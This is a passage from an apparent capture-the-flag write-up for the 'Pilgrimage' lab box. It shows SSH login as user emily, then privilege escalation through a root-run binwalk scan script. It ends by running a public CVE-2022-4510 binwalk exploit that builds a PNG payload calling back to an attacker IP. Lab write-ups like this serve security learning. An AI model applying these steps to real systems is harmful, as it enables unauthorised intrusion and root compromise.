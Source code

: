 I try that password for `ssh` login:

```console
$ ssh emily@$t
The authenticity of host '10.10.11.219 (10.10.11.219)' can't be established.
ED25519 key fingerprint is SHA256:uaiHXGDnyKgs1xFxqBduddalajktO+mnpNkqx/HjsBw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.219' (ED25519) to the list of known hosts.
emily@10.10.11.219's password:
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
emily@pilgrimage:~$ cat user.txt
7a3e01[...]
```

## Escalate

As user `emily` I can see an interesting process in the `ps fauxww` listing:

```console
root         724  0.0  0.0   6816  3096 ?        Ss   06:51   0:00 /bin/bash /usr/sbin/malwarescan.sh
```

`malwarescan.sh`:

```sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

`binwalk` is itself vulnerable. I save [the exploit](https://www.exploit-db.com/exploits/51249) and prepare the payload:

```console
$ python ./x.py ./surfperson.png 10.10.16.5 443

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
```